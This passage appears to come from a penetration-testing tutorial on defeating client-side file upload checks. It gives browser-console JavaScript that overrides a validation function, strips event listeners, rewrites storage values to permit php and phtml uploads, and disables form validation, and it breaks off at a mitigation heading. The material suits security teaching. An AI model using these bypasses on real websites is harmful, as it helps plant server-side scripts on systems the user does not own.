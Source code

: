 
## Advanced Client-Side Bypass Techniques

### JavaScript Function Overriding

**Method: Redefine Validation Function**
```javascript
// Override checkFile function in browser console
function checkFile(File) {
    // Do nothing - allow all files
    $("#submit").attr("disabled", false);
}
```

### Event Listener Removal

**Method: Remove Event Handlers**
```javascript
// Remove all change event listeners
document.getElementById('uploadFile').onchange = null;

// Or remove all event listeners
document.getElementById('uploadFile').removeEventListener('change', checkFile);
```

### Local Storage Manipulation

**Method: Modify Client-Side Variables**
```javascript
// If validation uses localStorage
localStorage.setItem('allowedExtensions', 'php,phtml,php5');

// If validation uses sessionStorage  
sessionStorage.setItem('fileTypeValidation', 'false');
```

### Form Validation Override

**Method: Disable HTML5 Validation**
```javascript
// Disable form validation
document.querySelector('form').setAttribute('novalidate', 'true');

// Remove required attributes
document.querySelectorAll('[required]').forEach(el => el.removeAttribute('required'));
```

---

## Detection and Mitigation

### Proper Server-Side Validation
